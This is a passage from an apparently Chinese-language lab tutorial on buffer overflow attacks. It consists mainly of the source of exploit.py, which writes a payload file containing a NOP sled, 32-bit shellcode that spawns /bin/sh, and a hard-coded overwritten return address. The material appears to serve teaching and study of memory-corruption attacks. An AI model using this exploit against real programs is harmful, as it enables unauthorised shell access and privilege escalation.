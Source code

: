     <img src="缓冲区溢出攻击_static/10.png" width="450"/>
</div>

下面是 exploit.py 文件的源代码：

```python{.line-numbers}
import sys

shellcode = (
    "\x31\xc0"      # xorl  %eax,%eax
    "\x50"          # pushl %eax
    "\x68""//sh"    # pushl $0x68732f2f
    "\x68""/bin"    # pushl $0x6e69622f
    "\x89\xe3"      # movl  %esp,%ebx
    "\x50"          # pushl %eax
    "\x53"          # pushl %ebx
    "\x89\xe1"      # movl  %esp,%ecx
    "\x99"          # cdq
    "\xb0\x0b"      # movb  $0x0b,%al
    "\xcd\x80"      # int   $0x80
).encode('latin-1')

# Fill the content with NOP
content = bytearray(0x90 for i in range(300))

# Put the shellcode at the end
start = 300 - len(shellcode)
content[start:] = shellcode

# Put the address at the beginning
ret = 0xbfffeaf8 + 100
content[112:116] = (ret).to_bytes(4, byteorder='little')

# Write the content to a file
file = open("badfile", "wb")
file.write(content)
file.close()
```
